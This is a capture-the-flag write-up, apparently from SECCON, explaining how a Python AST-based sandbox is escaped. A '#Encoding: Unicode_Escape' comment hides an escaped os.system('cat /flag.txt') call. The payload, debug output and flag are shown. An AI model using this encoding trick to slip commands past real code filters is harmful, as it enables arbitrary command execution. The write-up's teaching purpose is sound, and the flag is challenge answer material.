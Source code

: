 **mrarm** wasn't using pwntools, and by just connecting straight to the task and sending the following payload:
```python
#Encoding: Unicode_Escape
#\nimport os\nos.system("cat /flag.txt")

def foo():
    pass
```
He got the flag. The debug from sending the payload correctly:
```
AST Dump: ("Module(body=[FunctionDef(name='foo', args=arguments(posonlyargs=[], args=[], "
 'kwonlyargs=[], kw_defaults=[], defaults=[]), body=[Pass()], '
 'decorator_list=[])], type_ignores=[])')
Body size: 1

Result:

SECCON{dummy}
```

The important thing here is that the code is executed as a module, not by ```exec``` or ```eval```.   
During module building Python parses the specified encoding and uses it, which allows the execution of our payload. The AST parser treats the ```# Encoding: Unicode_Escape``` line as a comment, and that's why it's not included in the parsed body.  
```exec``` or ```eval``` do not parse the ```# Encoding``` line either (they wouldn't decode the source or would use default utf8), and as such if these were used instead, the vulnerability would not exist. 

---

# Solution

```python
#Encoding: Unicode_Escape
#\nimport os\nos.system("cat /flag.txt")

def foo():
    pass

__EOF__
```

The flag is: ```SECCON{UTF7_is_hack3r_friend1y_encoding}```